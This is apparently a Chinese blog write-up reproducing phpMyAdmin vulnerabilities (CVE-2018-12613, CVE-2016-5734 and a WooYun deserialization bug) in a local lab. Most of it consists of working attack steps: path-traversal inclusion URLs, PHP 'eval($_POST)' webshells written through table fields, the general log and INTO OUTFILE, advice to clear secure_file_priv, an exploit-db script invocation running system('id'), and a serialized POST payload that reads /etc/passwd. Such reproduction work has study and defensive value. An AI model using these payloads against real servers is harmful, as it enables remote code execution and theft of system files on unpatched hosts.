

phpmyadmin漏洞复现
phpmyadmin4.8.1远程文件包含漏洞（CVE-2018-12613）
受影响版本
phpMyAdmin 4.8.0和4.8.1
漏洞分析
在路上了…….
复现过程
- 利用文件包含进行getshell
执行语句查询数据库的路径：
1 | show global variables like "%datadir%"; 或 select @@datadir; |

查询到数据库的路径为：
C:\phpstudy\PHPTutorial\MYSQL\data\
创建一个数据库rce，表rce，字段code，向其中写入一句话木马：
1 | CREATE DATABASE rce; |
可以看到我们已经成功写入了对应内容。
文件的路径就是：data路径+数据库名/表名.frm ,然后包含它就可以，成功包含执行phpinfo
?target=db_datadict.php%253f/../../../../../../../../../phpstudy/PHPTutorial/MySQL/data/rce/rce.frm
如果包含的是MYD文件，可以看到phpinfo的内容被直接解析出来：
?target=db_datadict.php%253f/../../../../../../../../../phpstudy/PHPTutorial/MySQL/data/rce/rce.MYD

（1）*.frm–表定义，是描述表结构的文件。
（2）*.MYD–”D”数据信息文件，是表的数据文件。
（3）*.MYI–”I”索引信息文件，是表数据文件中任何索引的数据树。
新建一个表，表名一定要填，字段内容写入一句话木马：
接下来我们通过制作一个表，字段名为一句话木马，上传后通过文件路径的包含，连接蚁剑，应该就可以getshell。
1 | fputs(fopen("a.php","w"),'<?php eval($_POST[a]);?>'); |
保存后，访问包含文件的frm文件，就可在phpmyadmin的当前目录下生成一个a.php的文件：
？target=db_datadict.php%253f/../../../../../../../../../phpstudy/PHPTutorial/MySQL/data/rce/xiaofeiji.frm
成功连上蚁剑。
- 利用session文件改变写入日志文件的路径
general_log 指定日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
general_log file 指的是日志的保存路径
mysql 5.0版本以上会创建日志文件，修改日志的全局变量，也可以getshell。但是也要对生成的日志有可读可写的权限。
查看日志状态：
1 | SHOW VARIABLES LIKE 'general%' |
1 | SET GLOBAL general_log='on' |

当 general_log=ON 时，所执行的sql语句都会出现在 /var/lib/mysql/1e164993aaf5.log 文件。那么，如果把 general_log_file 的路径修改为 /var/lib/mysql/1.php，那么所执行的sql语句就会保存在1.php中，如果我们执行一个一句话木马，就可以getshell：
所以当我们把路径改为C:/phpstudy/PHPTutorial/WWW/1.php时就会在对应位置生成一个文件：
1 | SET GLOBAL general_log_file='C:/phpstudy/PHPTutorial/WWW/1.php' |
再次查看日志路径，发现它已经变成了我们修改后的路径，说明当select木马时，对应的内容会保存在我们设置的路径下：
1 | SHOW VARIABLES LIKE 'general%' |
将一句话木马写入1.php文件，既然是日志文件，我们select查询的SQL语句内容自然也会被保存在日志里面：
SELECT ‘‘
这时候相当于我们把 写入到日志 1.php中，我们尝试访问日志文件：1.php:
发现内容已经被解析了。
连接蚁剑，成功getshell。
- 直接插入语句执行
可以在phpinfo中查看到网站的根目录：C:/phpstudy/PHPTutorial/WWW
接下来我们执行：
1 | select '<?php @eval($_POST[cmd]);?>'INTO OUTFILE 'C:/phpstudy/PHPTutorial/WWW/shell.php' |
语句执行之后会在对应根目录下生成一个shell.php文件，并插入一句话木马，因此连接蚁剑可以成功getshell。
但是，上传的时候发现：
报错了，语句无法执行，可以看到跟secure_file_priv有关，百度了解到在插入一句话木马之前要先检测插入的条件是否被允许：
检测语句：
1 | show global variables like '%secure%'; |
显示是NULL值，这样的情况下我们插入一句话是无法插入的，需要我们修改secure_file_priv=’’为空值才能插入一句话：
secure_file_priv为null 表示不允许导入导出；
secure_file_priv指定文件夹时，表示mysql的导入导出只能在指定的文件夹；
secure_file_priv没有设置时，则表示没有任何限制；
我们需要在配置文件中对其进行修改，没有则添加：
secure_file_priv=’’
然后重启一下phpstudy，就能正常执行。
然后通过蚁剑进行连接。
- 参考文章
getshell的方法：
https://blog.csdn.net/qq_45521281/article/details/105788084
https://www.xctf.org.cn/library/details/4bc41644f3eea6884d4a860a82bdc8db6dc15576/
https://blog.csdn.net/qq_41901122/article/details/104718333
phpmyadmin后台远程代码执行漏洞（CVE-2016-5734）
受影响版本
Phpmyadmin -> 4.0.10.16之前的4.0.x版本
4.4.15.7 之前的 4.4.x版本
4.6.3之前的 4.6.x版本
Php版本： 4.3.0 ~5.4.6
Php 5.0 版本以上的将 preg_replace 的 /e修饰符给废弃掉了
漏洞成因
preg_replace漏洞触发有两个前提：
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
01：第一个参数需要/e修正符，有了它可以执行第二个参数的命令
02：第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令。
复现过程
POC攻击源码：https://www.exploit-db.com/exploits/40185
1 | python phpmyadmin_CVE-2016-5734.py -u root -p "root" http://192.168.1.7:8080 -c "system('id')" |
其中可以使用 -c 指定PHP 代码执行（这里未指定使用代码中默认的system(‘uname -a’)）
-d 指定数据库名
-t 指定用户所创建的表名（这里未指定使用代码中默认的）
phpmyadmin反序列化漏洞（WooYun-2016-199433）
受影响版本
phpmyadmin2.x
漏洞分析
https://rj45mp.github.io/phpMyAdmin-WooYun-2016-199433/
复现过程
漏洞存在的文件：/scripts/setup.php
登录网站访问漏洞文件：/scripts/setup.php
开启burp抓包，将数据包替换成如下：
1
2
3
4
5
6
7
8
9
10
11POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}攻击语句：
action=test&configuration=O:10:”PMA_Config”:1:{s:6:”source”,s:11:”/etc/passwd”;}